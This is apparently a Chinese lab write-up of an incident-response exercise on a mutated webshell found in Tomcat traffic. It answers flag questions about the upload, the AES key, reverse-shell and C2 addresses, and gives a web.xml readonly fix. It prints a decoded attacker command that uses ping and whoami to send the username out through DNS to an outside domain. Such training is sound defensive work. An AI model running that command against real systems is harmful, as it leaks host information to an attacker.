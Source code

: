 ```yaml
---
{"dg-publish":true,"permalink":"/Emergency response traing/玄机   某变异Webshell流量分析/","tags":["打靶","靶场","渗透","应急响应"]}
---
```



![image.png](https://s2.loli.net/2025/06/07/8QrFgBoCjwOyM1H.png)
[[思/某变异Webshell流量分析 思\|某变异Webshell流量分析 思]]
## 渗透

### 扫描
![image.png](https://s2.loli.net/2025/06/07/HzFwZaWqNpxReQk.png)

fscan 扫描发现有个 8081 的 tomcat。有可能文件任意上传漏洞


### 搜索漏洞
![image.png](https://s2.loli.net/2025/06/07/MmC3AteuUHY9gX2.png)


### 漏洞利用
![image.png](https://s2.loli.net/2025/06/07/wBfuxcEHQrah1JR.png)

利用成功
![image.png](https://s2.loli.net/2025/06/07/S3sMTG1QmnWwbly.png)


上传一个反弹 shell
![image.png](https://s2.loli.net/2025/06/07/12Q5lTyZxgfndcm.png)

## 第一问
![image.png](https://s2.loli.net/2025/06/07/x5VURNjTkGd3AOm.png)

从 wireshark 报文能看出是上传 hello. jsp

flag{hello. jsp}

## 第二问
![image.png](https://s2.loli.net/2025/06/07/85SNHURLIOeotYB.png)

查看 post 包中，能找到密码

## 分析
要对木马进行分析

木马的大致功能是通过加载字节码来执行恶意代码，整个webshell的核心部分逻辑是在字节码中。

## 第三问
在查看 put 包的攻击者上传的马，用了 base 64 解码和 gunzip。找到了秘钥
![image.png](https://s2.loli.net/2025/06/07/9cCNxF4VnZGk8QI.png)


```
oszXCfTeXHpIkMS3
```

![image.png](https://s2.loli.net/2025/06/07/CAQNBbqXeLURFjz.png)

对木马进行分析，里面还有一端加密语法，继续拉到蓝队工具箱进行

也能找到

查看木马能知道。木马是对值进行了 base 64 加密，aes 加密最后加了个 gunzip
## 第四问和第五问
找到 hello. jsp 的木马的 post 包。按照顺序依次解码
![image.png](https://s2.loli.net/2025/06/07/FKd4UZHyc21EwqG.png)

```
ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.
flag{ping -c 1 `whoami`.d5454c8975.ipv6.1433.eu.org.}
回显域名也在此
flag{d5454c8975.ipv6.1433.eu.org.}
d5454c8975.ipv6.1433.eu.org.
```

## 第六问
在最后一个木马的包中发现
![image.png](https://s2.loli.net/2025/06/07/O5Ea2rtJC9NmhiM.png)


应该是反链了

![image.png](https://s2.loli.net/2025/06/07/WwbthTML3qei1xv.png)

没做，就是反链
```
	flag{192.168.31.190|2024}
```

## 第七问

发现后面的流量都是 tls 的加密流量。刚好前面解密发现攻击者用了 key. log。上机提取一下

使用 pytohn 服务器传给主机
![image.png](https://s2.loli.net/2025/06/07/jykD9RlvmsceTPf.png)


![image.png](https://s2.loli.net/2025/06/07/lbERQUKDBFCWtJo.png)

跟踪 tls 流，能找到命令

![image.png](https://s2.loli.net/2025/06/07/aqTCiOvNfbGBd1A.png)

```
flag{ls}
```


## 第八问
上机排查
![image.png](https://s2.loli.net/2025/06/07/aPRcn3WlT2kKbH9.png)



发现一个文件自动删除三个文件
![image.png](https://s2.loli.net/2025/06/07/CNzbAsFiZWY78uQ.png)

我们重点检查这三个文件

![image.png](https://s2.loli.net/2025/06/07/6VWTktC5BRmlbuS.png)

云沙箱检查一下

![image.png](https://s2.loli.net/2025/06/07/uQD7at9Lmj81OZb.png)

```
flag{10.10.13.37|4444}
```

## 第九问
涉及 ctf，暂时不做

## 第十问
漏洞修复

Tomcat的 `web.xml` 中​**​默认servlet的 `readonly` 参数被显式设为 `false` ​**​时，攻击者可利用HTTP PUT方法上传恶意JSP文件并执行任意代。改成 true 就能修复

```
    <servlet>  
        <servlet-name>default</servlet-name>  
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>  
        <init-param>  
            <param-name>debug</param-name>  
            <param-value>0</param-value>  
        </init-param>  
        <init-param>  
            <param-name>listings</param-name>  
            <param-value>true</param-value>  
        </init-param>  
<init-param><param-name>readonly</param-name><param-value>true</param-value></init-param>  
        <load-on-startup>1</load-on-startup>  
    </servlet>
```